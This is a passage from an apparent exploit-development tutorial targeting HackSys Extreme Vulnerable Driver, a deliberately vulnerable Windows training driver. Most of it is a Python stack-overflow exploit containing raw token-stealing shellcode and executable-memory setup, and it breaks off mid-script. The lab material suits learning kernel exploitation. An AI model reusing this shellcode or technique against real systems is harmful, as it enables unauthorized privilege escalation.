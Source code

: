 Let’s pick the exploit from the [last post](../hevd-smep-bypass/), and
update the shellcode. I also added some `print` calls that helps to
trace at what stage of the exploit we are now:

``` python
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-privilege-escalation/
"""

import struct
import sys
from ctypes import windll, c_int, c_ulong, byref, sizeof
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
PSAPI = windll.psapi
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003


def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]


BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')

SHELLCODE = (
    b'\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01'
    b'\x00\x00\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39'
    b'\x91\xb4\x00\x00\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00'
    b'\x81\xe9\xb8\x00\x00\x00\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1'
    b'\xfc\x00\x00\x00\x8b\x09\x89\x8f\xfc\x00\x00\x00\x61\x31\xc0\x40\x83'
    b'\xc4\x10\x5d\xc2\x08\x00'
)

print('Allocating memory for shellcode...')
RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

print('Moving shellcode to heap...')
KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
```